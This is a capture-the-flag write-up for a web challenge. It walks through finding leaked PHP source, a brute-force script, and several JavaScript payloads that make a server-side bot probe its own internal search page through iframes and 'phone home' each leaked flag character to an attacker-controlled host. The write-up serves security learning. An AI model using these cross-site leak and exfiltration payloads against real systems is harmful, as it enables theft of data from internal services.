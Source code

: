 ﻿# Hacker Affiliates - Web 500

>They should already know intended solutions mean nothing to us - sine_nomine


## Challenge Description
So the attackers at this point seem to have some sort of website where they want their affiliates to register, they say they'll check out their websites if they do... I wonder if the admin can see what sites have already been registered using that search function they have; see if you can figure it out. 

`http://172.18.10.105:32581`
## Initial Observations
The website has two input text boxes, each with an associated button. The upper box asks for a URL and doesn't seem to do anything obvious. 

![Screenshot of Website](images/screenshot1.png)

The second field asks for a search term, and sends you to a blank page. Let's try a few things and see if the result changes. For example let's try the flag prefix RTXFLAG. 

![Screenshot of searching RTXFLAG](images/screenshot2.png)

Interesting! It looks like the web page will change if we submit part of the flag. We can write up a quick script to try and leak the flag one byte at a time. 

```python
from pwn import *
from string import printable
from urllib.parse import quote

flag = "RTXFLAG{"

while True:
  for c in printable:
    test = "http://172.18.10.105:32581/search.php?search="+quote(flag+c)
    res = wget(test)
    if len(res) > 0:
      flag += c
      break
  if flag[-1] == '}':
    break
print(flag)
```
This will give us `RTXFLAG{YOU_NEED_ADMIN}`... A fake flag! It also gives us a huge webpage (3.34MB). The webpage is mostly `<br/>` but there is some php source in a comment. 
```php
<?php

$flag = "REDACTED";

$host = explode(":",$_SERVER['HTTP_HOST'])[0];

// prevent DNS-rebinding - internal port: 1337 but we only check ip not port
// 172.18.10.105 isn't routable from internal network/server so use 10.144.0.68 or 127.0.0.1 when requesting resources
if($host != "172.19.0.2" && $host != "127.0.0.1" && $host != "10.244.0.68" && $host != "10.244.0.1" && $host != "172.18.10.105")
{
    die("Use a valid host header! - host: ".htmlentities($host));
}

if($_SERVER['REMOTE_ADDR'] != "127.0.0.1")
{
    $flag = "RTXFLAG{YOU_NEED_ADMIN}";
}

if(strstr($flag,$_GET['search']))
{
    echo "<iframe srcdoc=\"<html><title>".htmlentities($_GET['search'])."</title><body>flag: ".htmlentities($_GET['search'])."<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br></body></html>\"></iframe>";
}

if($_GET['search'] === "RTXFLAG{YOU_NEED_ADMIN}")
{
    echo str_repeat("<br>\n",200);
        echo "REDACTED ".str_replace(array("REDACTED","REDACTED","REDACTED"),"REDACTED",file_get_contents("search.php"))."  the internal server IP and port is 127.0.0.1 1337REDACTED";
    echo str_repeat("<br>\n",600000);
    echo "View the source, this isn't the real flag";
    echo str_repeat("<br>\n",100000);
}


?>
``` 

Looks like the source for search.php, but with the flag redacted, this will be helpful in figuring out what's going on. It looks like if the request doesn't come from `127.0.0.1` then it replaces the flag with the fake flag. Then it uses strstr to test if the search input is a substring of the flag, and if it is, an iframe is returned. If the search string equals teh fake flag, then it returns the redacted source. 

So our goal is to try and get the server to connect to itself to test the flag, then exfiltrate the information to us. 


## Gain Control
The first thing we need to do is to try and gain some control of the webapp so that we can make it talk to itself. We can probably assume that the server will reach out to whatever website you give it in the upper text field. Let's try making the server connect to an IP we control and we will see a response. 


Now we know that the webservice will make a request to whatever we put in the `Your URL` box. From here we can try to get the web service running some of our Javascript.

```javascript
<head>
<script>
function phoneHome(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://172.18.10.146:8080/index.html?flag="+flag, false);
  getter.send(null);
}

function main(){
    phoneHome("TEST");
}
</script>
</head>
<body onLoad='main()'>

</body>

```
When the service loads this Javascript it should make another GET request to our web server with the flag parameter set to "TEST". 

## Exploit

Now we need to get the webservice to call itself. Let's try the obvious solution where we just include another XMLHttpRequest() to `127.0.0.1:1337/search.php?search=R` If this works we should get some data returned in the XHR. 

```javascript
<head>
<script>

function phoneHome(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://172.18.10.146:8080/index.html?flag="+flag, false);
  getter.send(null);
}

function testFlag(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://127.0.0.1/search.php?search="+flag, false);
  getter.send(null);
  if (getter.responseText.size() != 0)
    phoneHome("Good");
  else
    phoneHome("Bad");
}

function main(){
    document.body.appendChild(attr);
    nextChar(0);
}
</script>
</head>
<body onLoad='main()'>

</body>

```

Now we run this code and... It doesn't make a callback. So what happened here? There's a feature in modern web called Cross-Origin Resource Sharing that limits what requests a server can make. CORS kicks in when a server gets a request on a different domain or port and effectively shuts down the connection. 

There is a way to get around that and that is to use iframes. We can create an iframe Javascript element with `document.createElement('iframe')` and dynamically populate the src field based on the flag parts we've discovered. 

```javascript
<head>
<script>
var attr = document.createElement('iframe');
var chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZ$_!@#abcdefghijklmnopqrstuvwxyz0123456789}";
var flag = location.search.split("flag=")[1];

function phoneHome(flag)
{
  let getter = new XMLHttpRequest();
  getter.open("GET", "http://172.18.10.146:8080/index.html?flag="+flag, false);
  getter.withCredentials=true;
  getter.send(null);
}
function nextChar(newIdx) {
    if (newIdx >= chars.length)
    {
        return;
    }
    char = chars.charAt(newIdx);
    attr.src = "http://127.0.0.1:1337/search.php?search=" + flag + char;
    attr.onload = function() {
        if (attr.contentWindow.frames.length > 0) {
            phoneHome(flag + char);
            return;
        }
        nextChar(newIdx + 1);
    }
}

function main(){
    document.body.appendChild(attr);
    nextChar(0);
}
</script>
</head>
<body onLoad='main()'>

</body>

```
 This payload will leak the next character of the flag we pass in on the flag parameter. By making the service go to `http://172.18.10.146:8080/index.html?flag=RTXFLAG{` we will see the next part is `http://172.18.10.146:8080/index.html?flag=RTXFLAG{X`  

We can repeat this process until we leak the entire flag of `RTXFLAG{XS_L34KS_VIA_FR4M3}`
